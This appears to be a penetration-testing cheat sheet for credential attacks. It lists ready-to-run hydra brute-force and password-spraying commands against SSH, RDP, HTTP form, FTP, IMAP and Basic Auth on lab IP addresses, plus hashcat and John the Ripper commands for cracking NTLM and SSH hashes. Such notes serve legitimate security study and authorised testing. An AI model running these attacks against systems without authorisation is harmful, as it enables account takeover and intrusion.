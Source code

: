 #### Brute Forcing

> [!info]  Always try default passwords, and username as password if we have some users

**First of all, brute force with basic usernames and passwords:**
* **Basic usernames:** `/usr/share/seclists/Usernames/top-usernames-shortlist.txt`
* **Basic passwords:** `/usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt`

| **Brute force**                                                                                                                                           | **Description**                              |
| --------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------- |
| `hydra -l george -P /usr/share/wordlists/rockyou.txt -e nsr -s 2222 ssh://192.168.50.201 -vV`                                                             | SSH                                          |
| `hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" -e nsr rdp://192.168.50.202 -vV`                                               | RDP - Password spraying                      |
| `hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 -e nsr http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid" -vV` | HTTP Form                                    |
| `hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -f ftp://192.168.213.61 -vV`                                                                   | FTP                                          |
| `hydra -L users.txt -P cewl-list.txt -e nsr -f 192.168.235.137 imap -u -f -vV`                                                                            | IMAP                                         |
| `hydra -L wordlist.txt -P wordlist.txt -e nsr -u -f SERVER_IP -s PORT http-get / -vV`                                                                     | Basic Auth Brute Force - User/Pass Wordlists |

#### Hash cracking

> [!info] We can use Hash-identifier in kali linux to find the hash type

Find Hashcat modes for specific hash type:
```bash
hashcat --help | grep -i "ntlm"
```

| **Hash cracking** | **Description** |
| ---- | ---- |
| `hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force` | Hashcat NTLM hash with rule (we can skip the rule) |
| `john --wordlist=/usr/share/wordlists/rockyou.txt --rules=/usr/share/hashcat/rules/best64.rule ssh.hash` | John the Ripper with rule (we can skip the rule) |
